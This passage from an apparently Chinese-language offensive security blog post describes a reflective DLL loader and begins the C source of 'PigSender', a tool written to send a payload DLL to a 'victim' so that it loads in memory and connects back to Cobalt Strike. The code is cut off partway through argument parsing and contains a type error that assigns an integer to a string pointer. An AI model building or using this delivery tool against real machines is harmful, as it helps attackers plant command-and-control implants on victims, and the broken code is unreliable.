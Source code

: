然后创建线程执行导出函数

最后`MemoryFreeLibrary(hModule);`，释放MemoryModule句柄

### 0x03 编写DLL发射器，联动CS

​	目前这个加载器只可以用来加载MSF的DLL，那么我们想加载自己的DLL怎么办呢(其实MSF发射的DLL换成自己的就行)，但其实我们可以自己写一个DLL发射器，来上线CS，这样就不用每次再开MSF了，这样也更灵活了。

​	刚刚我们查看加载器中的代码发现，就是简单的Socket网络编程中用来接受数据的代码，由此我们用C语言编写一个DLL发射器也可以实现发射自己的DLL到接收器进行加载。

​	Windows和Linux用到的库不一样，发射器改成Windows下能用的改的地方也不多，原理也一样。所以我们选择Linux网络编程来实现：

```c
// PigSender 用于传输DLL到victim
// Auther @evilash

#include<netinet/in.h>  
#include<sys/types.h>  
#include<sys/socket.h>  
#include<stdio.h>  
#include<stdlib.h>  
#include<string.h>  
#include <unistd.h>


#define LENGTH_OF_LISTEN_QUEUE     20  
#define BUFFER_SIZE                287744 
#define FILE_NAME_MAX_SIZE         512  


char banner[7][50] = {"  ____  _       ____                 _           ",
						" |  _ \\(_) __ _/ ___|  ___ _ __   __| | ___ _ __ ",
						" | |_) | |/ _` \\___ \\ / _ \\ '_ \\ / _` |/ _ \\ '__|",
						" |  __/| | (_| |___) |  __/ | | | (_| |  __/ |   ",
						" |_|   |_|\\__, |____/ \\___|_| |_|\\__,_|\\___|_|   ",
						"          |___/                                  ",
						"   A Reflective DLL Sender v0.1    @evilash"

					  };

int main(int argc, char **argv)  
{  
	int ch;
	char* port;
    char* filename;
    char file_name[FILE_NAME_MAX_SIZE]; 

    if (argc == 1){
    	printf("%s\n%s\n%s\n%s\n%s\n%s\n%s\n\n", banner[0],banner[1],banner[2],banner[3],banner[4],banner[5],banner[6]);
    	printf("Usage:\n\n %s -f [filename] -l [ListenPort].\n",argv[0]);
    	exit(1);
    }
	//参数处理
	while ((ch = getopt(argc, argv, "f:l:h")) != -1) {
		switch (ch) {
			case 'f':

				filename = strdup(optarg);
				strcpy(file_name, filename);
				break;
			case 'l':

				port = strdup(optarg);
				port = atoi((const char *)port);
```